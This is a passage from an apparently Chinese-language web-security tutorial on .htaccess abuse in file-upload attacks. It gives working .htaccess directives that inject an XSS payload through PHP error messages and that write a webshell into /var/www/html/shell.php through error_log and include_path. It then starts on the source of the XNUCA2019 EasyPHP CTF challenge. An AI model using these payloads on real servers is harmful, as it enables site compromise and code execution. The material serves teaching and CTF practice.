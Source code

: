 ![](%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0.assets/1681146121316-383c7e33-f202-4b7f-bb9c-b980e044fe9d.png#alt=img)

#### 通过错误消息链接

.htaccess 中的内容：

```php
php_flag display_errors 1
php_flag html_errors 1
php_value docref_root "'><script>alert(1);</script>"
```

index.php 中的内容为：

```php
<?php
include('foo'); // 这里会报错
```

当访问index.php时便会触发 XSS：

![](%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0.assets/1681146121259-73110044-f86e-48aa-b705-14f8429b291f.png#alt=img)

### 自定义错误文件（可写Webshell）

error_log 可以将 PHP 运行报错的记录写到指定文件中，因此我们可以通过 .htaccess 文件设定 error_log 选项来自定义错误文件的存储路径，并以此来写入Webshell：

```php
php_value error_log /var/www/html/shell.php
php_value include_path "<?php phpinfo(); __halt_compiler();"
# include_path 用来将include()的默认目录路径改变
```

index.php 中的内容为：

```php
<?php
include('foo'); // 这里会报错
```

访问 index.php，会报错并记录在 shell.php 文件中：

![](%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0.assets/1681146121449-75c87792-13b7-4e81-8863-6d5ce3ea4c0f.png#alt=img)

如上图可见，成功将我们的phpinfo()写入了shell.php中，但是 < 等字符会经过 html 编码（如上图所示），所以我们需要用 UTF-7 编码格式来绕过。下面我们通过 [XNUCA2019Qualifier]EasyPHP 这道CTF例题来深入的探究。

#### [XNUCA2019Qualifier]EasyPHP

进入题目，给出源码：

```php
<?php
    $files = scandir('./'); 
    foreach($files as $file) {
        if(is_file($file)){
            if ($file !== "index.php") {
                unlink($file);
            }
        }
    }
    include_once("fl3g.php");
    if(!isset($_GET['content']) || !isset($_GET['filename'])) {
        highlight_file(__FILE__);
        die();
    }
    $content = $_GET['content'];
    if(stristr($content,'on') || stristr($content,'html') || stristr($content,'type') || stristr($content,'flag') || stristr($content,'upload') || stristr($content,'file')) {
        echo "Hacker";
```